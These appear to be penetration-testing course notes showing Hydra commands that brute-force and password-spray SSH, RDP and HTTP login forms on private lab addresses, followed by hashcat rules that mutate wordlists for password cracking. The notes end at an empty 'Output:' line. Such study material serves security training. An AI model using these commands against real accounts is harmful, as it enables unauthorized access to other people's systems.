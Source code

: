 ## 15.1. Attacking Network Services Logins
### SSH & RDP
#### Brute Force attack w/ Hydra against SSH (on port 2222)
```Shell
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password spraying RDP w/ Hydra
```Shell
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
### HTTP POST Login Form
#### Hydra command to brute force HTTP POST login form
```Shell
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
#### Hydra command to brute force HTTP GET form
```Shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt -u -f $ip -s 80 http-get
```
## 15.2. Password Cracking Fundamentals
### Mutating Wordlists
- Assume a password requires an upper case letter, a special character, and a numerical value.
- [Hashcat Wiki](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- We can use the `$` function to append a character or `^` to prepend a character.
#### Move 10 words into a demo file
```Shell
head /usr/share/wordlists/rockyou.txt > demo.txt
```
#### Find any lines that start w/ "1" and delete them
```Shell
sed -i '/^1/d' demo.txt
```
#### Append "1" to the end of all words in the demo list
```Shell
echo \$1 > demo.rule
```
#### Display mutated hashes w/ Hashcat
```Shell
hashcat -r demo.rule --stdout demo.txt
```
#### Create a rule that appends a "1" to each line and capitalizes the first letter of each line
```Shell
echo \$1 c > demo1.rule
```
#### Create a rule that alternates between appending a "1" and capitalizing the first letter
```
vim demo2.rule

$1
c
```
#### Examine list w/ hashcat
```Shell
hashcat -r demo2.rule --stdout demo.txt
```
Output:
